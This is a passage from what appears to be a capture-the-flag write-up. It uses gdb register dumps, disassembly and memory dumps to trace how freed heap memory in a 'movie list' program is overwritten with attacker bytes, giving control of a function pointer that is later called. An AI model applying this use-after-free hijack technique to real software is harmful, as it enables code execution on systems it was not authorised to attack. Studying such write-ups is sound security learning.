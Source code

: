 ...
=&gt; 0xb7fdd424 &lt;__kernel_vsyscall+16&gt;:    pop    ebp
 0xb7fdd425 &lt;__kernel_vsyscall+17&gt;:    pop    edx
 0xb7fdd426 &lt;__kernel_vsyscall+18&gt;:    pop    ecx
 0xb7fdd427 &lt;__kernel_vsyscall+19&gt;:    ret
</pre>

Signal fired, and we can continue:

<pre class="brush: plain; title: ; notranslate" title="">=&gt; 0x804882d:    mov    DWORD PTR [esp],0x8048e86
 0x8048834:    call   0x8048500 &lt;printf@plt&gt;
 </pre>

Now watch for malloc:

<pre class="brush: plain; title: ; notranslate" title="">--------------------------------------------------------------------------[regs]
 EAX: 0x0804C008  EBX: 0xB7FC3000  ECX: 0xB7FC3440  EDX: 0x0804C008  o d I t S z a P c
 ESI: 0x00000000  EDI: 0x00000000  EBP: 0xBFFFF148  ESP: 0xBFFFF0F0  EIP: 0x08048871
 CS: 0073  DS: 007B  ES: 007B  FS: 0000  GS: 0033  SS: 007B
--------------------------------------------------------------------------1
=&gt; 0x8048871:    mov    edx,eax
 0x8048873:    mov    eax,DWORD PTR [ebp-0x3c]
 0x8048876:    mov    DWORD PTR [eax+0x4],edx
 0x8048879:    mov    eax,DWORD PTR [ebp-0x3c]
 0x804887c:    mov    eax,DWORD PTR [eax+0x4]
 0x804887f:    test   eax,eax
 0x8048881:    jne    0x804888f
 0x8048883:    mov    DWORD PTR [esp],0x8048e93
--------------------------------------------------------------------------------

Temporary breakpoint 20, 0x08048871 in ?? ()&lt;/pre&gt;
EAX = 0x804C008 &lt;--- where we had 1st movie list, thus we control movie_list and
function pointer at movie_list.fn_moviedetails
</pre>

Lets look at memory after input is copied there:

<pre class="brush: plain; title: ; notranslate" title="">gdb$ dd 0x804c008
[0x007B:0x0804C008]-------------------------------------------------------[data]
0x0804C008 : 61 61 61 61 61 61 61 61 - 61 61 61 61 61 61 61 61 aaaaaaaaaaaaaaaa
0x0804C018 : 0A 00 00 00 19 00 00 00 - 00 00 00 00 61 61 61 61 ............aaaa
0x0804C028 : 61 61 61 61 61 61 61 61 - 0A 00 00 00 19 00 00 00 aaaaaaaa........
0x0804C038 : 00 00 00 00 08 C0 04 08 - 00 00 00 00 00 00 00 00 ................
0x0804C048 : 00 00 00 00 B9 0F 02 00 - 00 00 00 00 00 00 00 00 ................
</pre>

Woops, 1st movie_lsit is overwriten, now we can list movies and watch how our  
data goes to 0x61616161:

<pre class="brush: plain; title: ; notranslate" title="">.text:08048BFA                 mov     eax, [ebp+index]
.text:08048BFD                 mov     eax, ds:g_movie_array.fn_moviedetails[eax*4]
.text:08048C04                 test    eax, eax
.text:08048C06                 jz      short loc_8048C23
.text:08048C08                 mov     eax, [ebp+index]
.text:08048C0B                 mov     eax, ds:g_movie_array.fn_moviedetails[eax*4]
.text:08048C12                 mov     eax, [eax+movie_list.fn_moviedetails]
.text:08048C14                 mov     edx, [ebp+index]
.text:08048C17                 mov     edx, ds:g_movie_array.fn_moviedetails[edx*4]
.text:08048C1E                 mov     [esp], edx
.text:08048C21                 call    eax
